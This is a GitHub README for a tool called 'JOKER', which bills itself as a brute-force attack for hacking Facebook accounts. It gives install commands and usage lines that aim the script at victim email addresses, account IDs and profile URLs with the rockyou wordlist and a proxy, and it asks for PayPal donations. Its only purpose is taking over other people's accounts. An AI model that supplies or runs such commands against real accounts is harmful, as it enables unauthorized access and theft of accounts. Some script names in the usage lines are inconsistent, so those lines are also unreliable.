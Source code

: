 ## Find Fikrado on :
[![Github](https://img.shields.io/badge/Github-fikrado-yellow?style=for-the-badge&logo=github)](https://github.com/fikrado)
[![Instagram](https://img.shields.io/badge/IG-%40mr__yahye-red?style=for-the-badge&logo=instagram)](https://www.instagram.com/mr__yahe)
[![Messenger](https://img.shields.io/badge/telegram-blue?style=for-the-badge&logo=telegram)](https://t.me/fikrado_hacker)
[![Facebook](https://img.shields.io/badge/facebook-black?style=for-the-badge&logo=Facebook)](https://facebook.com/fikrado4048063)

# JOKER FACEBOOK BRUTAL FORCE ATTACK

THIS TOOL IS FACEBOOK HACKING WITH BRUTAL FORCE CREATE BY
FIKRADO THE SOMALI HACKERS ORGANIZATION IN EAST AFRICA

# PLEASE DONATE AS :SENT  DONATE IN THIS PAYPAL EMAIL

lioyahya3@gmail.com

## [+] Installation & Usage
```
apt update

apt install git -y

pkg install python python2 && pip2 install requests mechanize

git clone https://github.com/fikrado/JOKER-burtal-force

cd JOKER-burtal-force

python joker.py

```
### 




```
      python joker.py -t Victim@gmail.com -w /usr/share/wordlists/rockyou.txt
   
      python joker.py -t 100001013078780 -w C:\\Users\\Me\\Desktop\\wordlist.txt
     
      python jokere.py -t Victim@hotmail.com -w D:\\wordlist.txt -p 144.217.101.245:3129-
      
      python jokery.py -t Victim@gmail.com -s 1234567
     
      python joker.py -g https://www.facebook.com/Victim_Profile
     
```
<img src="/itl.cat_joker-wallpaper-4k_3130186.png (1).jpg">
